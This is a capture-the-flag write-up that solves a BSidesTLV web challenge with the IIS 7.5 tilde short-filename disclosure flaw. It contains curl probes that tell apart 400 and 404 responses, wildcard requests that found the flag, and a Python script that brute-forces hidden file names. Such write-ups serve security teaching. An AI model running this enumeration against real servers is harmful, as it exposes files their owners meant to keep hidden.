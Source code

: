 # IIS on Steroids
* Category: Web Application
* 300 Points
* Solved by the JCTF Team

## Description
> I've been hiding a file that you'll never find in dictionaries and maybe you'll find it with a brute-force attack, but it will take you like 10 years or so :)
> 
> Can you deal with it?
> 
> http://iis.challenges.bsidestlv.com/

## Solution

Let's connect to the server:
```console
root@kali:/media/sf_CTFs/bsidestlv/IIS_on_Steroids# curl -v iis.challenges.bsidestlv.com/
*   Trying 104.248.251.27...
* TCP_NODELAY set
* Connected to iis.challenges.bsidestlv.com (104.248.251.27) port 80 (#0)
> GET / HTTP/1.1
> Host: iis.challenges.bsidestlv.com
> User-Agent: curl/7.64.0
> Accept: */*
>
< HTTP/1.1 400 Bad Request
< Server: Microsoft-IIS/7.5 on Steroids
< Content-Type: text/html; charset=utf-8
< Content-Length: 10
< Date: Tue, 18 Jun 2019 19:45:45 GMT
< Set-Cookie: s=9a85adfcc3667df6c60517ff3b10a82d8b32cde2; path=/; domain=challenges.bsidestlv.com
<
* Connection #0 to host iis.challenges.bsidestlv.com left intact
Nananaaaa!
```

Nothing much, apart from the fact that they are using IIS 7.5.

Searching for `"IIS 7.5" vulnerability` brings up [this link](https://www.exploit-db.com/exploits/19525) as one of the top results.

> The vulnerability is caused by a tilde character "`~`" in a Get request, which could allow remote attackers to disclose File and Folder names.
> Tilde character "`~`" can be used to find short names of files and folders when the website is running on IIS.
The attacker can find important file and folders that they are not normally visible.

The attack is based on the [8.3 Filename](https://en.wikipedia.org/wiki/8.3_filename) format, which dates back to DOS days. In short, without going into all the corner cases, file names could contains a maximum of 8 characters, a period and three more characters for the extension. Longer file names would be truncated, and the convention was to include the first six characters, a `~` character, and a number (starting from 1).

We can see this in action in one of the other challenges - [DoSaTTaCK](DoSaTTaCK.md):
![](images/boot330.png)

`PCDOS3~1.IMG` is in fact `PCDOS330-DISK1.img` after applying the 8.3 Filename format. If we would have `PCDOS330-DISK8.img` as well, it would have been renamed `PCDOS3~2.IMG` and so on.

The vulnerability causes IIS to leak the existence of files when using this convention, which can also be combined with wildcards (`*`). The server will return a 400 error if no file matches the pattern, and a 404 error if some file does match the pattern.

For example:
```console
root@kali:/media/sf_CTFs/bsidestlv/IIS_on_Steroids# curl -I http://iis.challenges.bsidestlv.com/x*~1*
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/7.5 on Steroids
Content-Type: text/html; charset=utf-8
Content-Length: 10
Date: Tue, 25 Jun 2019 19:04:40 GMT
Set-Cookie: s=cda86a9c0d56c79bc776acfac58938ef49a39924; path=/; domain=challenges.bsidestlv.com
root@kali:/media/sf_CTFs/bsidestlv/IIS_on_Steroids# curl -I http://iis.challenges.bsidestlv.com/l*~1*
HTTP/1.1 404 Not Found
Server: Microsoft-IIS/7.5 on Steroids
Content-Type: text/html; charset=utf-8
Content-Length: 23
Date: Tue, 25 Jun 2019 19:04:33 GMT
Set-Cookie: s=cda86a9c0d56c79bc776acfac58938ef49a39924; path=/; domain=challenges.bsidestlv.com
```

According to the response codes, we can see that there's a file starting with `l`, but not one starting with `x`.

We can find more information [here](http://blog.digital-horror.com/exploiting-microsoft-iis-tilde-enumeration/), [here](https://support.detectify.com/customer/portal/articles/1711520-microsoft-iis-tilde-vulnerability) and [here](https://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf), for example.

We solved the challenge by trying first "`*~1*`":
```console
root@kali:/media/sf_CTFs/bsidestlv/IIS_on_Steroids# curl http://iis.challenges.bsidestlv.com/*~1*
No so fast..Try harder!
```

Then "`*~2*`":
```console
root@kali:/media/sf_CTFs/bsidestlv/IIS_on_Steroids# curl http://iis.challenges.bsidestlv.com/*~2*
BSidesTLV{Y0ulln3v3rf1ndm3!}
```

But let's put some effort into it with the following script:
```python
import requests
import string

def send_request(path):
    return requests.get("http://iis.challenges.bsidestlv.com/{}".format(path))

def pattern_exists(pattern):
    r = send_request(pattern)
    if r.status_code == 400:
        return False
    elif r.status_code == 404:
        return True
    elif r.status_code == 200:
        return True
    else:
        raise Exception("Unexpected response code: {}".format(r.status_code))

alpha = set(string.printable) - set("<>:\"/\\|?*\r\n\b#.")
candidates = [""]

found_files = []
while len(candidates) > 0:
    base_candidate = candidates.pop()
    for c in alpha:
        candidate = base_candidate + c
        if pattern_exists("{}*~{}*".format(candidate, 1)):
            candidates.append(candidate)
    else:
        found_files.append(base_candidate)
    print (candidates)

for file in found_files:
    print ("{}:".format(file))
    print (send_request(file).text)
    print ("")
```

The script found the following files, the third one contained the flag:
```
l3v3lupah1dd3n
l3v3lupqh1dd3nd1r3ct0ry
l3v3luph1dd3nd1r3ct0ryandn0tm3
```
